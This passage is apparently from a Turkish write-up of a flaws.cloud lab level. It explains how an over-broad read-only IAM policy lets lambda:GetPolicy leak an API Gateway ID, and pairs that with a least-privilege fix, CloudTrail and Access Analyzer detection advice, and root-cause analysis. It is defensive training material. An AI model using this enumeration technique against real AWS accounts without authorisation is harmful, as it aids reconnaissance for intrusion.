

**AI günlüğü / troubleshooting notu:** İlk denemede `detach`/`attach`
komutları çalıştırıldıktan hemen sonra `get-policy` çağrısı beklenenden
farklı davrandı; hata anında görünmedi. Bunun sebebi IAM'in **eventual
consistency** davranışı — policy attach/detach işlemleri tüm AWS
altyapısına birkaç saniyelik gecikmeyle yayılıyor. ~10 saniye beklenip
komut tekrar çalıştırıldığında `AccessDeniedException` net şekilde
doğrulandı. Bu, IAM policy testlerinde (özellikle "hemen deniyorum ama
sonuç değişmedi" şaşkınlığında) akılda tutulması gereken gerçek bir
davranış.

**Karşılaştırma tablosu:**

| Eylem | Geniş policy (`test-wide-audit`) | Least-privilege (`test-minimal-audit`) |
|---|---|---|
| `lambda:ListFunctions` | ✅ Başarılı | ✅ Başarılı (meşru ihtiyaç, korundu) |
| `lambda:GetPolicy` | ✅ Başarılı → REST API ID (`4c20dfvq15`) sızdı | ❌ AccessDenied |

Kapanış ilkesi: least-privilege uygulanırken **sadece gerçekten gereksiz
olan izin** (`GetPolicy`) kaldırıldı; meşru ihtiyaç (`ListFunctions`)
korundu. Amaç kullanılabilirliği sıfırlamak değil, **saldırı yüzeyini
daraltmak**.

## 4. Tespit (Detection)

- **CloudTrail:** `iam:GetPolicyVersion`, `lambda:GetPolicy`,
  `apigateway:GET` gibi "sadece okuma" çağrılarının **kısa bir zaman
  aralığında art arda aynı principal'dan** gelmesi, klasik bir
  enumeration/keşif deseni sinyalidir — özellikle bu çağrılar hiçbir yazma
  işlemi ile takip edilmese bile.
- **IAM Access Analyzer / Policy Simulator:** Hangi kullanıcıların hangi
  *resource-based* policy'leri (Lambda, S3 vb.) okuyabildiği proaktif
  olarak denetlenmeli — `GetPolicy` gibi görünüşte zararsız izinlerin
  gerçekte ne açığa çıkardığı simülasyonla test edilebilir.
- **AWS Config:** `SecurityAudit` gibi geniş, yönetilen (AWS managed)
  policy'lerin hangi kullanıcılara/rollere bağlı olduğu periyodik olarak
  gözden geçirilmeli — bu tür policy'ler "salt-okunur" göründüğü için
  genelde denetim dışı bırakılıyor, ama bu level'ın gösterdiği gibi tek
  başına önemli bir keşif yüzeyi oluşturabiliyor.

## 5. Kendi Test Ortamı Kanıtı

flaws.cloud'un gerçek hesabına karşı **sadece enumeration** yapıldı (Bölüm
2, adım a-j) — hiçbir kaynak değiştirilmedi ya da oluşturulmadı, sadece IAM
policy'ler, Lambda resource policy'si ve API Gateway stage bilgisi okundu.
Kendi hesabımda (`174429081136`) ise gerçek bir Lambda + API Gateway + IAM
policy senaryosu sıfırdan kuruldu ve zincir **hem zafiyetiyle hem
düzeltilmiş hâliyle** ground-truth olarak doğrulandı: geniş policy ile REST
API ID'si (`4c20dfvq15`) `lambda:GetPolicy` üzerinden birebir aynı şekilde
sızdı; `GetPolicy` izni kaldırılan minimal policy ile bu sızıntı
`AccessDeniedException` ile durduruldu, meşru `ListFunctions` ihtiyacı ise
korundu.

## 6. Kök Neden (Paylaşılan Sorumluluk)

Bu level'daki risk tamamen **müşteri tarafında**: AWS, `SecurityAudit` gibi
resmi ve geniş kapsamlı yönetilen (managed) policy'leri sunuyor — bu
policy'ler AWS'in platform seviyesindeki bir tasarım kararı ve kendi
başlarına "güvensiz" değil. Ama bu policy'yi (ya da `list_apigateways` gibi
onu tamamlayan ek policy'leri) **gerçek ihtiyaca göre kısıtlamadan,
olduğu gibi bir kullanıcıya bağlamak** tamamen organizasyonun tercihi.
`lambda:GetPolicy` gibi "sadece meta-veri okur" görünen tek bir izin bile,
başka bir servisin (API Gateway) yapılandırma detaylarını açığa
çıkarabiliyor — bu da least-privilege'in "salt-okunur" policy'ler için de
aynı titizlikle uygulanması gerektiğini gösteriyor. AWS Paylaşılan
Sorumluluk Modeli çerçevesinde bu, "security **of** the cloud" değil,
"security **in** the cloud" kategorisinde, IAM policy tasarımına ait bir
hata.
